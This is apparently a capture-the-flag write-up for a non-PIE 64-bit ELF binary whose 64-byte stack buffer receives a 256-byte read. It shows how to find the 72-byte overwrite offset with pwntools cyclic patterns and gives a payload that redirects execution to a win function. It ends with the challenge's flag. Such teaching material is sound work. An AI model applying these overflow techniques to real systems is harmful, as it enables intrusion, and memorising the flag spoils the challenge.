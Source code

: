 # Solution
We are given 64-bit ELF binary, not PIE (which means there are fixed addresses).
The stack frame reserves 0x40 bytes for the buffer (sub rsp, 0x40).
The code calls read with size 0x100 (256), so it writes up to 256 bytes into a 64-byte buffer (which could lead to an overflow).
And finally, the win function os present as a symbol and is at static address 0x401196 (because the binary is not PIE)

To find the overwrite offset, you can either find it from the source/disassembly (64 bytes buffer + 8 saved RBP = 72):

> from pwn import *
> p = cyclic(200)
> send p to program (locally or remote), then when crash occurs, get RIP
> (gdb) run < <(python -c 'print(p)')
> (gdb) x/40gx $rsp
> or if the program dumped core, get the RIP value and call cyclic_find(rip_value)s


Or directly with pwntools:

``
python3 - <<EOF
from pwn import *
p = cyclic(200)
print(cyclic_find(0x6161616261616461))  # use actual crashed RIP value
EOF
``

It should yield 72.
We can then send the payload as:
`payload = b"A"*72 + p64(0x401196)`

## Flag
Flag: ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}
